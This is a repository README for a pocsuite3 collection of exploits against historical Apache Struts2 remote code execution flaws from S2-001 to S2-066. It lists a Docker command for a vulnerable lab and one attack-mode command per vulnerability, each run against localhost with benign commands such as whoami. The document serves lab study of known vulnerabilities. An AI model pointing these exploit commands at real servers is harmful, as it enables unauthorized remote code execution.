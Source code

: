 # Struts2 Exploits & Environment

## Legal Disclaimer

Unauthorized use of vulnerabilities to attack targets without prior mutual consent is illegal. The historical vulnerability information related to Struts2 contained in this repository has already been publicly disclosed on the internet. This repository serves only for collection and organization, strictly for learning and research purposes.

## 法律免责声明

未经事先双方同意，使用漏洞攻击目标是非法的。本仓库所包含的 Struts2历史漏洞信息早已在互联网上公开，此仓库只做收集整理，仅供学习和研究目的。

## Overview

This project is dedicated to organizing and collecting exploits related to historical vulnerabilities in Struts2. All exploits are authored using pocsuite3. 

## Vulnerability Environment

Execute the Docker command to pull and run the vulnerability environment.

```
docker run -it -p 8080:8080 isxiangyang/struts2-all-vul-pocsuite:latest
```

### S2-001

http://localhost:8080/S2-001/login.action

```
pocsuite -r 20090323_WEB_Apache_Struts2_001_RCE.py -u http://localhost:8080/S2-001/login.action --attack --command whoami 
```

### S2-003

http://localhost:8080/S2-003/HelloWorld.action

```
pocsuite -r 20090323_WEB_Apache_Struts2_003_RCE_CVE-2008-6504.py -u http://localhost:8080/S2-003/HelloWorld.action --attack --command whoami
```

### S2-005

http://localhost:8080/struts2-showcase-2.1.8/showcase.action

```
pocsuite -r 20100510_WEB_Apache_Struts2_005_RCE_CVE-2010-1870.py -u http://localhost:8080/struts2-showcase-2.1.8/showcase.action --attack --command whoami
```

### S2-007

 http://localhost:8080/S2-007/user.action 

```
pocsuite -r 20120108_WEB_Apache_Struts2_007_RCE.py -u http://localhost:8080/S2-007/user.action --attack --command whoami
```

### S2-008

http://localhost:8080/struts2-showcase-2.1.8/showcase.action

```
pocsuite -r 20120108_WEB_Apache_Struts2_008_RCE_CVE-2012-0394.py -u http://localhost:8080/struts2-showcase-2.1.8/showcase.action --attack --command whoami
```

### S2-009

http://localhost:8080/struts2-showcase-2.1.8/config-browser/showConfig.action

```
pocsuite -r 20111001_WEB_Apache_Struts2_009_RCE_CVE-2011-3923.py -u http://localhost:8080/struts2-showcase-2.1.8/config-browser/showConfig.action --attack --command whoami
```

### S2-012

http://localhost:8080/S2-012/index.action

```
pocsuite -r 20130219_WEB_Apache_Struts2_012_RCE_CVE-2013-1965.py -u http://localhost:8080/S2-012/index.action --attack --command whoami 
```

### S2-013

http://localhost:8080/S2-003/HelloWorld.action

```
pocsuite -r 20130219_WEB_Apache_Struts2_013_RCE_CVE-2013-1966.py  -u http://localhost:8080/S2-003/HelloWorld.action --attack --command whoami
```

### S2-015

http://localhost:8080/S2-015/

```
pocsuite -r 20130219_WEB_Apache_Struts2_015_RCE_CVE-2013-2134.py -u http://localhost:8080/S2-015/ --attack --command whoami
```

### S2-016

http://localhost:8080/struts2-showcase-2.1.8/showcase.action

```
pocsuite -r 20130219_WEB_Apache_Struts2_016_RCE_CVE-2013-2251.py -u http://localhost:8080/struts2-showcase-2.1.8/showcase.action --attack --command whoami 
```

### S2-019

http://localhost:8080/struts2-showcase-2.1.8/nodecorate/jspEval.action

```
pocsuite -r 20130612_WEB_Apache_Struts2_019_RCE_CVE-2013-4316.py -u http://localhost:8080/struts2-showcase-2.1.8/nodecorate/jspEval.action --attack --command whoami
```

### S2-020

http://localhost:8080/S2-003/HelloWorld.action

```
pocsuite -r 20131203_WEB_Apache_Struts2_020_RCE_CVE-2014-0094.py -u http://localhost:8080/S2-003/HelloWorld.action
```

### S2-025

http://localhost:8080/struts2-showcase-2.1.8/nodecorate/jspEval.action 

```
pocsuite -r 20150701_WEB_Apache_Struts2_025_RCE_CVE-2015-5169.py -u http://localhost:8080/struts2-showcase-2.1.8/nodecorate/jspEval.action  --attack --command whoami
```

### S2-029

http://localhost:8080/S2-029/default.action

```
pocsuite -r 20151216_WEB_Apache_Struts2_029_RCE_CVE-2016-0785.py -u http://localhost:8080/S2-029/default.action --attack --command whoami
```

### S2-032

http://localhost:8080/S2-032-showcase/index.action

```
pocsuite -r 20160310_WEB_Apache_Struts2_032_RCE_CVE-2016-3081.py -u http://localhost:8080/S2-032-showcase/index.action --attack --command whoami
```

### S2-033

http://localhost:8080/S2-033-rest/orders/4


```
pocsuite -r 20160310_WEB_Apache_Struts2_033_RCE_CVE-2016-3087.py -u http://localhost:8080/S2-033-rest/orders/4 --attack --command whoami
```

### S2-037

http://localhost:8080/S2-033-rest/orders/4

```
pocsuite -r 20160502_WEB_Apache_Struts2_037_RCE_CVE-2016-4438.py -u http://localhost:8080/S2-033-rest/orders/4 --attack --command whoami
```

### S2-045

http://localhost:8080/S2-032-showcase/fileupload/doUpload.action

```
pocsuite -r 20170129_WEB_Apache_Struts2_045_RCE_CVE-2017-5638.py -u http://localhost:8080/S2-032-showcase/fileupload/doUpload.action --attack --command whoami
```

### S2-046

http://localhost:8080/S2-032-showcase/fileupload/doUpload.action

```
pocsuite -r 20170411_WEB_Apache_Struts2_046_RCE_CVE-2017-7672.py -u http://localhost:8080/S2-032-showcase/fileupload/doUpload.action --attack --command whoami 
```

### S2-048

http://localhost:8080/S2-032-showcase/integration/saveGangster.action

```
pocsuite -r 20170621_WEB_Apache_Struts2_048_RCE_CVE-2017-9791.py -u http://localhost:8080/S2-032-showcase/integration/saveGangster.action --attack --command "whoami"
```

### S2-052

http://localhost:8080/S2-033-rest/orders

```
pocsuite -r 20170621_WEB_Apache_Struts2_052_RCE_CVE-2017-9805.py -u http://localhost:8080/S2-033-rest/orders --attack --command "touch /var/tmp/success.txt"
```

### S2-053

http://127.0.0.1:8080/S2-053/index.action

```
pocsuite -r 20170807_WEB_Apache_Struts2_053_RCE_CVE-2017-12611.py -u http://127.0.0.1:8080/S2-053/index.action --attack --command whoami
```

### S2-057

http://localhost:8080/S2-057/actionChain1.action

```
pocsuite -r 20180605_WEB_Apache_Struts2_057_RCE_CVE-2018-11776.py -u http://localhost:8080/S2-057/actionChain1.action --attack --command whoami
```

### S2-061

http://localhost:8080/S2-061/index.action

```
pocsuite -r 20200812_WEB_Apache_Struts2_061_RCE_CVE-2020-17530.py -u http://localhost:8080/S2-061/index.action --attack --command whoami 
```

### S2-066

http://127.0.0.1:8080/S2-066/upload

```
pocsuite -r 20231204_WEB_Apache_Struts2_066_RCE_CVE-2023-50164.py -u http://127.0.0.1:8080/S2-066/upload
```

